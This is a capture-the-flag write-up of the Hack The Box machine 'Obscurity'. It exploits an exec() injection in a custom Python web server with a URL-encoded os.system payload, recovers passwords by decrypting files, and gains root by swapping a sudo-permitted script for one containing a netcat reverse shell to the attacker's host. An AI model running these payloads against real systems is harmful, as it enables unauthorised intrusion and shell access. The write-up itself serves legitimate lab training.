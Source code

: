```yaml
---
title: Obscurity HTB Writeup
date: '2020-05-09 20:00:00'
author: fuxsocy
description: Obscurity By Fuxsocy
categories: ["htb"]
banner_img: /img/Obscurity.png
---
```


## User



From Nmap ports 22,80 and 8080 are open. port 80 does nothing. port 8080 is a web server, and is a custom webserver.
At the home page of the website there is a message which says  
```Message to server devs: the current source code for the web server is in 'SuperSecyreServer.py' in the secret development directory.```

I run wfuzz to find the *dir* only because I already know the filename.

```
wfuzz -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

I find the file located at /develop/

After reading the code I found an rce on these lines of the code.
```
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
```

The path gets inside the exec function. So If I send inside the path something like `/';os.system("ping IP");'` given that the os library is already imported by the script I get code execution? Let's try to send that but encoded.

I use `https://www.urlencoder.org/` and encode this command `';os.system("ping 10.10.14.81");'` and on my box I listen for any ping request using  
`tcpdump -i tun0 -n icmp `

I immediately get a request back.
```
root@kali:~/Downloads# tcpdump -i tun0 -n icmp  
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:24:49.507887 IP 10.10.14.81 > 10.10.10.168: ICMP echo request, id 9799, seq 106, length 64
```

I get a reverse shell, inside /home/robert folder I find a python script which encrypts and decrypts files and some files. I type this command and get a password. `python3 SuperSecureCrypt.py -i out.txt -o /tmp/d.txt -k "$(cat check.txt)" -d` the password is `alexandrovich`, now I decrypt the passwordreminder with this password. the command is  `python3 SuperSecureCrypt.py -i passwordreminder.txt -o /tmp/a.txt -k "alexandrovich" -d`
```
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/a.txt...
www-data@obscure:/home/robert$ cat /tmp/a.txt 
SecThruObsFTW
```
I use this password to ssh into the box, as robert user.

# Root

After a bit of enumerating inside the box, I finally find that I can run this python script as root.   
```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
robert@obscure:~$ 

```
I can rename that folder to something else and then create the folder with the same name and the python script with the same name, and then execute the command to get a reverse shell.


```
robert@obscure:~$ cd BetterSSH/
robert@obscure:~/BetterSSH$ ls -la
total 12
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 .
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 ..
-rwxr-xr-x 1 root   root   1805 Oct  5 13:09 BetterSSH.py
robert@obscure:~/BetterSSH$ cd ..
robert@obscure:~$ mv BetterSSH/ a
robert@obscure:~$ mkdir BetterSSH
robert@obscure:~$ cd BetterSSH/
robert@obscure:~/BetterSSH$ touch BetterSSH.py
robert@obscure:~/BetterSSH$ vim BetterSSH.py
robert@obscure:~/BetterSSH$ cat BetterSSH.py 
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 7979 >/tmp/f")
robert@obscure:~/BetterSSH$ sudo -u root /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
